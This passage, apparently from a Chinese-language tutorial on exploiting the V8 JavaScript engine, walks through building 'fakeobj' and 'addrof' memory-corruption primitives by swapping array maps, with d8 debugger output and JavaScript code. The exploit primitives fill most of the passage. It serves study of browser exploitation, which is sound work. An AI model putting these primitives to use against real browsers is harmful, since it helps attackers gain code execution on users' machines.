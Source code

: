 `oob` 函数的返回值是浮点型的，为了方便对其进行位运算，需要实现了类型转换函数 `ftoi`、`itof`。

验证下效果：

---

**ℹ️NOTE**: 使用Release 版的 d8.exe

---

```bash
./d8.exe --allow-natives-syntax
V8 version 9.4.0 (candidate)
d8> load("poc.js")
8203ae1
8203b31
8049901
undefined
d8> %DebugPrint(obj)
0x023108049901 <Object map = 00000231082022D1>
{}
```

### fakeobj

把修改 map 顺序变换一下，就可以实现 fakeobj:

- 把指针转换成浮点数，存入浮点数组
- 浮点数组的 map 改成对象数组的
- 把刚存入的指针当成对象读出。
- 恢复 map

```javascript
function fakeobj(tagged_ptr) {
  arr[0] = itof(tagged_ptr)
  modify_double_arr_map(arr, obj_array_map)
  res = arr[0]
  modify_double_arr_map(arr, double_array_map)
  return res;
}
```

可以用数组构造 `tagged_ptr` 指向的内存：

```javascript
function addrof(obj) {
  modify_double_arr_map(arr, obj_array_map)
  arr[2] = obj;
  modify_double_arr_map(arr, double_array_map)

  return ftoi(arr[1]) & BigInt("0x00000000ffffffff");
}

// fake a double Array
arr_contains_fake_obj = [itof(make_qword(double_array_map, 0)), itof(make_qword(double_array_map, 6 << 1)), 1.3];
%DebugPrint(arr_contains_fake_obj);
fixed_arr_ends = arr_begin = addrof(arr_contains_fake_obj);
console.log(fixed_arr_ends.toString(16));

// 获取fakeobj的起始地址
fake_obj_tagged_ptr = fixed_arr_ends - BigInt(3 * 8);
console.log(fake_obj_tagged_ptr.toString(16));
```
